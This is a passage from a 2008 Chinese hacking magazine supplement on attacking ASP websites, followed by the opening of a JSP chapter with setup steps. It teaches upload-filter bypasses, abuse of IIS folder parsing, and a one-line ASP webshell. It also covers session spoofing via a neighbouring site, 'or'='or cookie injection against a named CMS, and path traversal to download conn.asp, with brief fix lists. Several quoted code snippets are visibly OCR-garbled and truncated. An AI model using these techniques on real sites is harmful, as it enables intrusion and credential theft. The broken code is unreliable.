

如果上传文件的页面中还有 path 或者 dir 等参数，我们可以通过修改它来上传文件到任意目录。当然了，必须是一个已经存在的目录，程序是不会新建目录的。Fileter 是过滤设置，我们可以尝试将它换成其它的，也许就能够上传 ASP 文件了。

另外，如果程序只是判断文件名中第一个扩展名的话，我们可以将文件改成多重后缀再进行上传，如将 1.ASP 改成 1.jpg.ASP 这样，也许就能上传成功了。大家可能还遇到过一种情况，就是当你上传 ASP 文件时，文件名后缀被截掉了，1.ASP 变成了 1。此时我们可以将文件命名为 1.aASPsp，因为程序会将其中的一个 ASP 替换成空，剩下的字符自然就连接成 asp 了。

如果上传文件后找不到地址，我们可以根据经验来猜，常用的文件夹有 uploadfiles、upfile、uppic、picturer、upload、upfiles 等。另外，用 WsockExpert 抓包也是很重要的方法。同时，我们也可以到网站上的相应位置，看看其它文件的地址，或者利用搜索引擎搜索这个网站中 doc、rar 等后缀的文件。如果程序强制把上传的文件命名为 jpg 格式的，我们就没有办法利用了。

这里来说一下怎么绕过本地判断吧。当我们直接上传一个 ASP 文件时，弹出了一个如图38所示

# 非安全·黑客手册 2008 第一增刊

的提示框，说明程序在本地使用了一段脚本来进行判断。但是这仅仅是本地的判断，我们是可以任意修改文件的。



首先在页面上按鼠标右键选择“查看源文件”，然后删除其中的脚本 onchange="checkExt （）；" ，它的意思是当前框中内容改变时触发事件，删除后就不会弹出提示了。

然后将我们将地址补全成一个绝对地址，例如将 upload.ASP?act=up 补成 http://www.lijiejie.cn/upload.ASP?act=up，接着将代码另存为一个 HTML 文件，这样就可以顺利上传了。这是其中的一类，还有一类是在点击按钮时进行判断的，我们只要删除表单中的 onsubmit="return checkval( ) " 代码就可以直接提交了。

不过有时候我们可能会遇到这样的问题，就是当本地修改完文件进行提交时，程序提示：“请不要从外部提交数据”。这时候程序是通过你提交地址的域名和当前域名是否一致来进行判断的。我们要怎样绕过这里的限制呢？这里给大家介绍一款非常有用的小工具：啊 D 写的 “IE 恶搞迷”，如图39所示，用它就可以直接修改本地浏览器中的代码。



我们点击并按住那个“放大镜”，然后将它拖到要修改源代码的网页上，这时程序下面的文本框中就出现网页的全部代码，我们只要修改其中的代码就可以了。修改完毕，再点击“开始恶搞”，网页中的代码就改变了，而且域名和登录信息都是没有改变的，这时提交程序就不会认为你是从外部提交的数据了。

由此可以看出，现在禁止外部提交的方法还是有缺陷的，“IE 恶搞迷”的原理应该是修改了 I E 缓存中的内容，这样我们就可以实现任意改变当前网页中的内容，“黑”下百度也不是难事，呵呵。备份时如果遇到不能修改数据库的地址，或要备份的数据库地址是灰色的这种情况，我们也可以使用上面的方法将代码中的 disabled 去掉。

拿 shell 的另一个方法是向 ASP 页面中写入一句话木马。有些程序的版权页面和设置页面是 ASP 的，而且支持在线修改，我们就可以向其中插入一句话木马<% execute request ("value") %>，然后再使用一句话客户端连接就行了。

然而有些程序对数据库做了处理，向其中写入了一条错误的 A SP 语句，导致我们无法直接插入一句话木马，这个时候就可以在恢复数据库的地方想办法。因为数据库是 A S P 的，我们直接将一个 ASP 木马保存为 jpg 格式上传到服务器，然后再点“恢复”，程序就会把我们上传的 jpg 格式的木马恢复成当前数据库。

但是要注意的是，点了“恢复”之后，整个网站就崩溃了，所以恢复之前我们必须备份一下。我们选择的必须是一个免杀的木马，如果不免杀，恢复之后被杀了，就不能再利用了，崩溃的网站也不能恢复。

# 入门的选择 --Asp 编程攻防浅析

再来看看我们怎么利用 WIN2003 中 IIS 解析的一个小漏洞。在 WIN2003 中，凡是文件夹名称为 1.ASP 这种格式的，其包含的文件无论是什么格式，IIS 都会以 ASP 程序来解析它。所以，只要我们想办法创建一个 1.ASP 格式的文件夹，再往其中上传一个文件，就可以得到 webshell 了。例如当我们备份文件时，程序只允许我们备份成 mdb 格式，那就可以将它备份到 1.ASP 这样的文件夹中，使用起来是一样的。

那么我们应该怎样来防止别人获取网站的 webshell 呢?

- 第一、要杜绝上传漏洞，在客户端和接收页面都必须过滤。当然了，服务器端的过滤是最重要的，还有就是取消“上传文件夹”的执行权限。
- 第二、备份数据库的路径不能更改，备份后的文件格式也不能改，最好是 mbk 的格式，因为对方无法在浏览器里直接浏览，也无法下载。
- 第三、如果使用 ASP 格式的数据库，一定要做防下载处理，防止别人下载数据库或者插入一句话木马。
- 第四、上传的地址应该用一个特别点的文件名，防止被猜到，而且不登录系统不允许上传。这里提醒一下：好多程序的上传页面都没有做验证，任何用户都可以直接访问，这种做法是很不对的。大家在 google 中搜索 inurl:upload.ASP intitle:“文件上传” 就知道了。
- 第五、最好不支持直接恢复数据库，因为恢复数据库也是很危险的，要恢复时直接 ftp 就行了。

### 6. Session 的欺骗和注入

Session 是用来记录用户相关信息的 ASP 内置对象，用它可以保持客户端和服务器的会话。当用户在 web 页面之间切换跳转时，这个值都不会改变，只有当用户关闭浏览器时，这个会话才会失效，Session 值被清空。

例如我们写一个 session('admin')='nohack'，就可以记录当前登录的管理员是 nohack。初级的程序员在判断登录状态时，都是直接使用 session 值来判断的，只要这个值不为空，就表明你已经登录了，但实际上这个值是可以伪造的。

例如我们来看看 ewebeditorV2.8 当中的一段代码：

```
If oRs("sys_username") = md5(s_Usr) And oRs("sys_userpass") = md5(s_Pwd) Then
    ' 登录成功
    Session("eWebEditor_User") = s_Usr
    Session("eWebEditor_Version") = oRs("sys_version")
    Response.Redirect "admin_default.ASP"
    Response.End
End If
```

大家可以可以看到，程序判断用户名和密码正确之后，只是写入了一个 session 值而已：Session ("eWebEditor_User") = s_Usr，接着再写入了ewebediror的版本，就直接转向了管理页面。管理页面中对于登录状态的判断在 Admin_Private.ASP 文件中，相关代码如下：

```
If Session("eWebEditor_User") = 
```

只要 session 值不为空，就认为你已经登录了。那我们来新建一个文件 session.ASP，写入如下代码：

```
<%
Session("eWebEditor_User") = "nohack" 
%>
```

然后在浏览器里访问这个 session.ASP，再来访问 Admin_Default.ASP 这个管理页面，是不是可以直接进去了？如图4 0 所示。



那么我们怎样来进行session欺骗呢？session值是同时保存在服务器上和客户端cookies中的，我们只要入侵与目标网站在同一服务器上的网站，然后上传并访问一个写session值的文件就可以了，这与在目标网站上写入session值是一样的。注意不要关闭浏览器，然后访问目标网站的后台，就可以成功进入了。

当然了，我们发现这样的网站：它们将参数写入session值后还带人数据库进行了查询。这时我们应该怎么办呢？可以尝试进行session方式的注入。比如将参数 'or'='or 进行编码后是 %27or%27%3D%27or%27，然后将这个值写到session里面就可以了。

```
<% Session(“username”)=” %27or%27%3D%27or%27 %>
```

这样程序将它带入数据库查询时得到的结果就为真，这与cookies注人是有一些相似之处的。大家应该意识到，单凭session来判断是不充分的，应该同时结合cookies，而且还可以带人数据库进行查询。不过得注意防注入哦，Sesssion 值也是可能注入的。

# 7、cookies 注入和欺骗

随着一些程序员开始注意对客户端post和get方式提交数据的过滤，我们想要直接注入变得越来越困难了。不过cookies注入却还没有引起太多程序员的注意，许多程序往往是直接将读取的cookies值带人数据库进行查询。我们来看看讯时网站管理系统V2.5判断管理员登录的页面，文件是admin_chk.ASP，相关代码如下：

```
<% session(“admin_user”)=Request.Cookies(“adminuser”) 
 session(“admin_pass”)=Request.Cookies(“adminpass”) 
 session(“dj”)=Request.Cookies(“admin dj”) 
 adminuser=Request.Cookies(“adminuser”) 
 adminpass=Request.Cookies(“adminpass”) 
 admin dj=Request.Cookies(“admin dj”) 
 if adminuser=
```

# 非安全·黑客手册2008第一增刊

```
sql = "select * from admin where [user]="&adminuser&" and [pass]="&adminpass&""
Set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open sql,conn,1,1
if rs.recordcount=0 then
 Response.Redirect "login.ASP?id=8"
end if
rs.close
set rs=nothing
conn.close
set conn=nothing
%>
```

从以上代码中看到，所有的数据都是从cookies中取得的，而且没有做任何过滤，直接赋给了adminuser和adminpass，并且带入数据库进行了查询。于是我们可以在本地构造cookies来进行注入，其中那个admindj是用来表示用户等级的，主要是判断用户为超级管理员还是普通的文章录入员。我打开数据库看了一下，超级管理员的等级

直接将用户名和密码都写做 'or'='or'，cookies的全部值就应该为 admindj=1; adminuser='or'=or'; adminpass='or'=or' 。不过大家都知道，cookies都是使用16进制编码的，所以我们需要将 'or'='or' 进行编码。

怎么编码呢？简单点，我们就直接用baidu吧。在关键字里输入 'or'='or'，然后点“百度一下”，再看地址栏 wd= 后面的文字，那就是编码了，如图41所示。



可以看到，'or'='or' 的编码结果为 %27or%27%3D%27or%27，这样完整的cookies就是 admindj=1; adminuser= %27or%27%3D%27or%27; adminpass= %27or%27%3D%27or%27。我们将这里的cookies填到老兵的cookies修改工具中，记得将那个黄色的按钮按下，然后直接访问admin_index.ASP后台文件，马上就进去了，如图42所示。



cookies 注入就是这么简单，它和我们平时使用的后台登录页面的注入一样，只是这里需要修改cookies。平时我们看到一个后台登录页面，也会想到用 'or'='or' 去试试，看看能不能登录成功。这里的原理其实是相似的，都是注入，仅仅是方式不同而已。

那么这种cookies注入应该怎么修复呢？

- 第一．不能直接用从cookies中读取的值来赋给变量。
- 第二、应该对所有放入数据库中查询的变量进行过滤，如果嫌依次过滤麻烦，就使用通用防注入程序吧。
- 第三、不能过分相信cookies中的数据，应该从多方面来进行验证。

最后我们还是来看看cookies的欺骗吧。这里所说的欺骗是一种更为低级的漏洞，程序员只判断了对应的cookies值是否为空就断定管理员是否登录了，根本不将取得的数据带入数据库查询。这样的话，入侵就更好办了，直接随便构造相应的cookies，再访问后台即可进入。例如admin=admin这样简单的cookies就可以了，不过大家需要将对应的cookies值添加完全。

### 8. 任意文件下载漏洞

任意文件下载漏洞比较少见，主要是一些下载文件的页面对文件的路径过滤不严格引起的。如果将地址保存在数据库中，一般不存在这个问题，但如果是通过get方式从客户端读取的，就可能被利用。

我们来看看曾经让大家拿了大批shell和肉鸡的新云任意文件下载漏洞，漏洞文件是flash文件夹下的downfile.ASP，关键代码如下：

```
Dim url,strUrl,strPath
url = Replace(Replace(Replace(Replace(Request("url"), "", "/"), "%", "/"), "/", "/")
'对读取的url中的%替换成空，\换成/
If Len(url) > 3 Then
    If Left(url,1) = "/" Then
        Response.Redirect url      '如果地址第一位为“/”就直接转向这个地址
    End If
    If Left(url,3) = "../" Then
        Response.Redirect url      '如果地址的前三位是“ ./”就直接转向这个地址
    End If
strUrl = Left(url,10)
If InStr(strUrl, ".//") > 0 Then
    Response.Redirect url
End If
If InStr(url, "/") > 0 Then
    strPath = Server.MapPath(".") & "" & url       '得到物理路径
    strPath = Replace(strPath, "/", ")         '将“/”转换为“\”
    Call downThisFile(strPath)     '下载文件
Else
    Response.Redirect url
End If
End If
```

大家可以看到，这里的过滤方法是有缺陷的，仅仅是判断了读取的地址第一位是不是“/”，前三位是不是“. ./”，如果不是就可以下载文件了。我们只要满足第一位不是“/”或者“”，前三位不是“. ./”，就可以下载文件了。

我们来构造url，当前目录为flash，那就可以跳转目录到程序的根目录，下载conn.ASP数据库连接文件。我们访问downfile.ASP?url=flash/../.. /conn.ASP，如图43所示。



# 图43 下载任意文件

# 大型站点最爱---JSP 脚本攻防


# 大型站点最爱--JSP 脚本攻防

目前，国内的脚本漏洞挖掘与人侵都基本停留在A S P 语言，而P H P 语言下的安全研究也在逐渐增多，但对于J S P 语言的漏洞挖掘与攻击技术的研究文章可谓是凤毛麟角，读者们可以到被黑网站统计系统看看，99.99%被黑的网站都是基于A S P 语言的。而在下面的章节中，我会让大家对J S P 漏洞挖掘与攻击技术有一个感性的认识。

P S：如果你没有任何基础，要看懂本文可能要花一点时间，但如果你有一点语言基础或懂得简单的漏洞挖掘，看懂本文可以说是轻而易举。

### 一、JSP 语言概述

学习 J S P 脚本安全与攻击技术并不需要很深入地去学习J S P 下的技术，但我们很有必要了解一下J S P 的有关知识。

JSP是Java Server Pages的缩写，它是由SUN公司于1999年推出的一种WEB动态网站的开发技术。JSP具有异常好的扩展能力和良好的收缩性，能与几乎所有数据库类型配合，并且拥有巨量丰富的函数，无论在速度和效率方面，JSP都较ASP、PHP与CGI等语言有过之而无不及。最重要的是，JSP能应用于多个平台，光在跨平台方面，JSP就已经彻底击败ASP了。

JSP一般和M Y S Q L 或O r a c l e 数据库搭配，在大型和中型企业中得到广泛的应用。尽管目前的JSP在使用数量上不如A S P 和P H P ，但因为JSP拥有的众多优势，使用JSP架设的网站也在逐渐增多。

JSP通常以*.jsp 扩展名保存的，它的工作方式是请求/应答模式，客户端先发出HTTP请求．JSP程序收到请求后进行处理，并返回处理的结果．即当Web服务器上的JSP页面第一次被请求执行时．JSP引擎先将JSP页面文件转译成一个Java文件．即Servlet (Java Servlet是基于服务器端编程的API．用Java Servlet编写的Java程序称为servlet．servlet通过HTML与客户交互)．服务器将前面转译成的Java文件编译成字节码文件．再执行这个字节码文件来响应客户的请求。

当这个JSP页面再次被请求时，只要该JSP文件没有被改动，JSP引擎就直接调用已装载的Servlet，整个过程如图1所示。



正是因为JSP使用这种工作方式，才使得JSP语言在运行效率与速度方面都在同类语言之上。

### 二、JSP 环境的搭建

要学习JSP语言，首要条件就是拥有一个属于自己的JSP环境。前面说过了，JSP语言一般和MYSQL或Oracle数据库进行搭配，但由于Oracle是大型商务网络所使用的数据库类型，并且难度比较大，所以这里我以MYSQL数据库来与JSP进行搭配。下面，我就来教大家搭建JSP语言环境，我们需要安装以下四个软件：

- 1. JDK 5.0
- 2. MYSQL 5.0
- 3. Tomcat 5.5.26
- 4. Tomcat-5.5.26-admin

需要注意的是，在安装Tomcat之前，我们必须先安装JDK，所以，首先来安装JDK。打开JDK的安装文件，选择“我同意”选项，然后点击“下一步”按钮进行下一步的操作，如图2所示。



这一步是选择安装目录，点击“Change ..”按钮可以更改安装路径，选择好你要安装的目录后，点击“NEXT”按钮，下面的步骤我们不用理会，一直点“下一步”JDK就开始安装了，如图3所示。



JDK 安装完毕后，我们不用急着安装 Tomcat，先来安装 MYSQL 5.0。打开 MYSQL 5.0 的安装文件，如图 4 所示。



点击 “N E X T ” 按钮，就会出现三个安装类型选项，如图 5 所示。



其中 “Typical” 为默认安装、“Complete” 为完全安装、“Custom” 则是用户自定义安装。这里我们选择 “Custom”，因为它有更多的选项，也方便我们熟悉安装过程。NEXT 后，来到用户自定义页面，我们在 “Developer Components” 选项旁的三角形处单击鼠标左键，选择 “This feature, and all subfeatures, will be installed on local hard drive.”，即 “此部分，及下属子部分内容，全部安装在本地硬盘上”，如图 6 所示。

"Developer Components" 上面的 "MySQL Server"、"Client Programs"、"Documentation" 也进行同样的操作，以保证安装所有文件。点击 "Change...” 按钮选择 MYSQL 的安装目录，一切 OK 后，点击 “NEXT”

这一步目的是选择安装目录，由于我们刚才已经设置过安装目录，所以这里直接 N E X T 就行，如图 7 所示。

NEXT 后又会返回刚才的界面，不用理会，再次 N E X T，如图 8 所示。

最后一步是确认安装，对话框中显示了你设置的安装信息，如果你认为设置有误，可以点击 “Back” 按钮返回上一步更改。确认设置后点击 “Install” 开始安装，如图 9 所示。安装



# 图6



# 图7

